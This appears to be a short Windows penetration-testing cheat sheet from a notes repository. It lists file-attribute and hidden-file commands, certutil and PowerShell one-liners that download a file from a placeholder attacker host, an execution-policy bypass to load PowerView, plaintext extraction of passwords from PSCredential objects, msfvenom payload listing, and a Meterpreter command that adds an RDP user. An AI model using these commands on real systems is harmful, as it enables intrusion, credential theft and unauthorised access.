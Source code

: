 ### Set File bits
- `attrib +r filename` add read only bit
- `attrib -r filename` remove read only bit
- `attrib +h filename` add hidden bit
- `attrib -h filename` remove hidden bit

### Show hidden file/folder
- `dir /a` show all hidden files & folder
- `dir /a:d` show only hidden folder
- `dir /a:h` show only hidden files

### Downloading Files
- `certutil.exe -urlcache -f http://<ip>:<port>/<file> ouput.exe`
- `powershell -c "wget http://<ip>:<port>/<file>" -outfile output.exe`
- `powershell Invoke-WebRequest -Uri $ip -OutFile $filepath`

### Active Directory
```powershell
powershell -ep bypass  # load a powershell shell with execution policy bypassed 
. .\PowerView.ps1`     # import the PowerView module
```

## List Drives
```powershell
wmic logicaldisk get caption
```

## Decrypting PSCredential Object
* `$file = Import-Clixml -Path <path_to_file>`
* `$file.GetNetworkCredential().username`
* `$file.GetNetworkCredential().password`

## Msfvenom
### List All Payloads
```bash
$ msfvenom -l payloads
```

### List Payload Format
```bash
$ msfvenom --list formats
```

## Meterpreter
### Adding user for RDP
```bash
$ run getgui -u [USER_NAME] -p [PASS]
```
